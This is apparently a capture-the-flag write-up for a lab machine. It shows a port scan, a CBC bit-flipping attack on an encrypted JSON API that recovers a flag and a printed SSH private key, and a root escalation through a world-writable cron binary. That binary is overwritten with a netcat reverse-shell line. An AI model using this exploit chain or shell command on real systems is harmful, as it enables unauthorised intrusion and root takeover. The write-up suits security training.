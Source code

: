 # Nmap

After scanning the machine with nmap, there are 2 ports open: `22` and `9001`.

```bash
nmap --top-ports 1000 10.0.10.97
nmap --top-ports 1000 10.0.10.97 -sV
```

![](screenshots/1.png)

```
PORT     STATE SERVICE
22/tcp   open  ssh
9001/tcp open  tor-orport

PORT     STATE SERVICE
22/tcp open  ssh     OpenSSH 9.0 (protocol 2.0)
```

The service on port `9001` died from the portscan. The machine had to be restarted.

# 9001

There is a text based service on port `9001`. With commands `getFlag` and `getSshKey` some API key and crypto, based on a json.

Based on the examples, `1337` is blacklisted in the `apiKey`. Otherwise we receive a cyphertext, which can be piped back to get the original plaintext (and that our API key is invalid).

![](screenshots/2.png)

After a lot of experimentations, the following can be noted.

 - It is using some IV. Same plaintext results in different cyphertext.
 - Block size is 16.
 - Modifying a byte in the cyphertext is thrashing that block, and rarely a byte in next block, but nothing else.
 - The `apiKey` and `operation` is mandatory, can occur more than once, only the last one is used.
 - The `apiKey` can contain `1337` if it is not the last.
 - Some `comment` keys can be added with arbitrary content, it has no effect.
 - Valid JSON is required.

```json
{"comment":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", "apiKey": "", "operation": "getFlag"}  
```

![](screenshots/3.png)

![](screenshots/4.png)

Based on the observations, a JSON can be created with 2 `apiKey`s, where the second one is empty (no `1337`) and can fit in a block, surrounded with comments. It is structured in a way that if the block is thrashed, it should still be a valid JSON, because the garbage will be inside the quotes.

```json
{"apiKey":"1337d74c985b01ab9d4f996690a8dde658ec307313c1a521810bdcff6d964b4e","comment2":"AAAAAAAAA","apiKey":"\"", "commenttttttttt":"","operation": "getFlag"} 
```

Modifying the returned cyphertext byte at offset 218 results in the flag, because the program is using the first `apiKey` now.

![](screenshots/5.png)

# Flag 1
`flag{off_3_8861a4661b4436d2e81165a36adc486c}`

# SSH key
There is a `getSshKey` operation as well. Crafting an input like earlier can use this command.

![](screenshots/6.png)

This is handing out an SSH key for the `node` user.

```
1.	SSH key for the "node" user:
2.	-----BEGIN OPENSSH PRIVATE KEY-----
3.	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
4.	QyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yic5+VZXtYMH4GjrNQLAAAAIhfoqZmX6Km
5.	ZgAAAAtzc2gtZWQyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yic5+VZXtYMH4GjrNQLA
6.	AAAEBw9eew4bjTG894tjjQruEAgtCNUXVRYJuRPsHQzcLt+YxBVKFucQiyNEBQZRRvnNz3
7.	fKJzn5Vle1gwfgaOs1AsAAAAAAECAwQF
8.	-----END OPENSSH PRIVATE KEY----- 
```

Not every client likes this format, so it was converted via `putty`. Import key then Export OpenSSH key (force new file format). This is compatible with my client.

![](screenshots/7.png)

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtz
c2gtZWQyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yic5+VZXtYMH4GjrNQLAAA
AJAvteWYL7XlmAAAAAtzc2gtZWQyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yi
c5+VZXtYMH4GjrNQLAAAAEBw9eew4bjTG894tjjQruEAgtCNUXVRYJuRPsHQzcLt
+YxBVKFucQiyNEBQZRRvnNz3fKJzn5Vle1gwfgaOs1AsAAAAAAECAwQFBgcICQoL
DA0=
-----END OPENSSH PRIVATE KEY----- 
```

This can be used to SSH into the other open port.

```bash
ssh -i /tmp/ssh.key node@10.0.10.97 
```

# Cron

There is a cron job running as root that runs a binary that can be modified by anyone. It runs every minute.


![](screenshots/8.png)

Writing our code into the binary is running it as root on the next attempt.

```
echo '#!/bin/sh' >> rkhunter
echo 'nc 10.0.1.2 4444 -e /bin/bash' >> rkhunter
chmod 777 rkhunter
cat ./rkhunter > /usr/bin/rkhunter 
```

![](screenshots/9.png)

The flag is not a txt, but a binary, running it outputs the flag. It is checking a few things (for example password hash for root), so the easiest is running it on the machine itself.

![](screenshots/10.png)

# Flag 2
`flag{off_4_e946801225142d40d50d416e3a77d6d9}`
